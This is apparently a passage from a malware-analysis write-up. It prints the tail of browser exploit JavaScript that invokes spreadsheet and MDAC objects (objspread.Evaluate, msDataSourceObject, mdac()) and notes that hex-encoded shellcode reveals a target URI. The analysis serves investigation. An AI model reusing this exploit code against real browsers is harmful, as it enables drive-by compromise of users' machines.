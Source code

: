 ```
			e.push(0);
			e.push(window);
			for (i = 0; i < e.length; i++) {
				for (j = 0; j < 10; j++) {
					try {
						objspread.Evaluate(e[i]);
					} catch (e) {
					}
				}
			}
			window.status = e[3] + '';
			for (j = 0; j < 10; j++) {
				try {
					objspread.msDataSourceObject(e[3]);
				} catch (e) {
				}
			}
		} catch (e) {
		}
	}
	Complete();
}
mdac();
```

![c8f84f1f7d3b0ad2d30e3300ded9d07f.png](../../_resources/c8f84f1f7d3b0ad2d30e3300ded9d07f.png)

We have to pick each one of them and convert them from Hex, which we will eventually find out that `shellcode` from `spreadsheet()` related to uri we are looking for
